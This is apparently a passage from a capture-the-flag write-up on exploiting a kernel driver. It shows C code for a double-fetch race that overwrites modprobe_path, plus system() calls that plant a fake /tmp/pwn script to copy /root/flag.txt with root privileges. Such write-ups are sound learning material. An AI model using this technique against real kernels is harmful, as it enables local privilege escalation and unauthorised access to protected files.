 this could be bypassed through the vulnerability called `double fetch` explained here:

{% embed url="https://n132.github.io/2022/05/19/Introduction-of-Kernel-Pwn-Double-Fetch.html" %}

this is also similar to a challenge I have previously solved which is HTB's Kernel Adventures: Part 1

to do this, we'll need two asynchronous execution, one thread will continuously request for KVISIT, trying to trigger the `memcpy` :

```c
void *visit() {
    while (!success) {
        ioctl(fd, KVISIT, NULL);
        exec_modprobe();   
    }
}
```

while the other thread will continuously swap the values of `location` to satisfy `access_ok()` and `decoration` to satisfy `isalnum()` in the hopes that the race will satisfy both of the checks while contains our payload to overwrite modprobe by the time `memcpy` is called.

```c
void *switcher() {
    while (!success) {
        payload.location = (unsigned long) &dummy_decoration;
        payload.decoration[0] = 'A';
        payload.decoration[4] = 'A';
        ioctl(fd, KINTRO, &payload);
        
        payload.location = modprobe_path;
        payload.decoration[0] = '/';
        payload.decoration[4] = '/';
        ioctl(fd, KINTRO, &payload);
        
        exec_modprobe();
    }
}
```

before all this, we might want to set up the modprobe files to make it more efficient

```c
void prep_modprobe() {
    puts("[*] Setting up for fake modprobe");

    system("echo '#!/bin/sh\ncp /root/flag.txt /tmp/flag\nchmod 777 /tmp/flag' > /tmp/pwn");
    system("chmod +x /tmp/pwn");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");
}

int main(int argc, char *argv[]){
    setvbuf(stdout, NULL, _IONBF, 0);
    prep_modprobe();

    fd = open("/dev/camping", O_RDWR);
    // ... snippet
}
```
